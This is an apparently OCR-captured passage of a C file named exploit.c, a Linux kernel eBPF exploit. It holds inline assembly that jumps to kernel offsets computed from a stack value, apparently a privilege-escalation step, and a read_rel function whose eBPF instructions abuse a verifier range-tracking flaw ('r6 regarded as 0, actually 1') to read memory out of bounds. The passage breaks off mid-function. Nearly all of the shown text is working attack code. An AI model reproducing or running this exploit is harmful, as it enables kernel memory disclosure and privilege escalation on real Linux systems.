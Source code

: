 ```exploit.c
    "mov rbx, QWORD PTR [rsp+0x50]\n"
    "sub rbx, 0x244566\n"
    "mov rcx, rbx\n"
    "call rcx\n"
    "mov rdi, rax\n"
    "sub rbx, 0x470\n"
    "call rbx\n"
    "add rsp, 0x20\n"
    "pop rbx\n"
    "pop r12\n"
    "pop r13\n"
    "pop r14\n"
    "pop r15\n"
    "pop rbp\n"
    "ret\n"
  );
}
// (END utils)

ulong read_rel(int N)
{
  struct bpf_insn reader_insns[] = {
    /* get cmap[0] */
    BPF_LD_MAP_FD(BPF_REG_1, control_map),              // r1 = cmap
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_FP),               // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8),            // r2 -= 8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 0),                // qword[r2] = 0
    BPF_ST_MEM(BPF_DW, BPF_REG_2, -8, 0),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),            // r0 = map_lookup_elem(cmap, 0)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),              // jmp if r0!=0
    BPF_EXIT_INSN(),
    BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_0, 0),       // r6 = cmap[0] (==0)
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),                // r9 = &cmap[0]
    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),                // r8 = &cmap[0]
    /* get cmap[1] */
    BPF_LD_MAP_FD(BPF_REG_1, control_map),              // r1 = cmap
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_FP),               // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8),            // r2 -= 8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 1),                // qword[r2] = 1
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),            // r0 = map_lookup_elem(cmap, 1)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),              // jmp if r0!=0
    BPF_EXIT_INSN(),
    BPF_LDX_MEM(BPF_DW, BPF_REG_7, BPF_REG_0, 0),       // r7 = cmap[1] (==1)
    /* fix r6/r7 range */
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_6, 0, 2),              // ensure R6>=0
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_6, 2, 1),              // ensure 0<=R6<=1
    BPF_JMP_IMM(BPF_JA, 0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_7, 0, 2),              // ensure R7>=0
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_7, 2, 1),              // ensure 0<=R7<=1
    BPF_JMP_IMM(BPF_JA, 0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    // exploit r6 range 
    BPF_ALU64_REG(BPF_RSH, BPF_REG_6, BPF_REG_7),       // r6 >>= r7 (r6 regarded as 0, actually 1)
    BPF_ALU64_IMM(BPF_NEG, BPF_REG_6, 0),               // r6 *= -1
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, N),               // r6 *= N

```